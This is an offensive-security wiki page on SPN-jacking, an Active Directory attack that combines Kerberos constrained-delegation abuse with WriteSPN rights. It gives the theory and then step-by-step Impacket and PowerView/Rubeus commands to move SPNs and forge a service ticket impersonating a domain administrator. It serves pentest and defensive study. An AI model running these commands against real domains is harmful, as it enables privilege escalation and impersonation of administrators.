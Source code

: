 # SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md), as well as [Access Control abuse](../access-controls/). A a service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad\_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite`, `WriteProperty` over it (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner object as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

{% hint style="info" %}
In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).

In this scenario (following [Elad](https://twitter.com/elad\_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):

* serverA is configured for KCD
* serverB's SPN is listed in serverA's KCD configuration
* serverC is the final target
* attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like machines, [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

__:warning: _At the time of writing, 12th Feb. 2022, the tgssub.py script is in development._

```python
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "DOMAIN"/"USER":"PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u 'domain\user' -p 'password' -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:password'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and  [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse" %}
